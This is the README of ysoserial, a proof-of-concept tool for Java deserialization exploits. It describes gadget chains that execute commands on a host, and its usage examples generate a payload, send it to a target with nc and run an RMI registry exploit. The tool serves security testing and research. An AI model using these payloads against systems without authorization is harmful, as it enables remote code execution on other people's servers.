 
# ysoserial 

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles) 

ysoserial is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar ysoserial-0.0.1-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
        Available payload types:
                CommonsCollections1
                CommonsCollections2
                Groovy1
                Spring1           
```

## Examples

```shell
$ java -jar ysoserial-0.0.1-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.1-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.1-all.jar ysoserial.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from the "releases" section.

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
